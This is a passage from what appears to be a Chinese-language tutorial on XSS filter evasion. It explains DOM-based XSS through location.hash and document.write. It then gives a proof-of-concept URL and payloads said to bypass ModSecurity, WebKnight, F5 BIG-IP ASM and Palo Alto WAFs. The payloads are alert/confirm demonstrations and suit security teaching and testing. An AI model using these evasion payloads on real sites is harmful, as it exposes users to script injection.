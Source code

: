上面的JavaScript获取location.hash的输入，location.hash后面传递的任何东西都不会发给服务器，接下来基于用户的输入通过document.write属性直接打印给DOM而没有任何JavaScript转义，这会导致基于DOM的XSS

在一些场合下我们会将一个反射型XSS转换为基于DOM的XSS以避开过滤器，看一下这个POC：

[code]

    http://www.target.com/xss.php?foo=<svg/onload=location=/java/.source+/script/.source+location.hash[1]+/al/.source+/ert/.source+location.hash[2]+/docu/.source+/ment.domain/.source+location.hash[3]//#:()
[/code]

上面的POC仅当[及.和+被允许时才有效，我们可以使用location.hash来注入所有不被允许的字符。上面的场景中(,)和:不被允许，然而[,.和+是被允许的。因此，我们在
想注入不允许字符的地方使用location.hash[index]进行插入。

[code]

    Location.hash[2]= ( // Defined at the second position after the hash. 
    Location.hash[3] = ) // Defined at third position after the hash.
    Location.hash[1] = : // Defined at the first position after the hash.
[/code]



基于DOM的XSS的唯一障碍是客户端的过滤器，我们会在一个单独的页面里看一下绕过的方法





**7.1 绕过**  
通过调整cheat sheet里的攻击载荷，我们能绕过大多数流行的WAF，我们决定有一些方法等到厂商修复后再公布，以免违背道德黑客精神



**7.1.1 绕过ModSecurity**

[code]

    <scri%00pt>confirm(0);</scri%00pt>
    <a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec
[/code]



**7.1.2 绕过webKnight**

[code]

    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
    <marquee/onstart=confirm(2)>
[/code]



**7.1.3 绕过F5 BIG IP ASM and Palo ALTO**

[code]

    <table background="javascript:alert(1)"></table>
[/code]

上面的向量仅在IE6和更早版本中的opera有效，在写这些的时候我们确实还有一些对F5、BIG IP和Palo
ALTO有效的向量，使用这些向量可以在现在的浏览器中执行JavaScript脚本。不过，在我们决定不公开的时候供应商也正在忙着修复这些问题
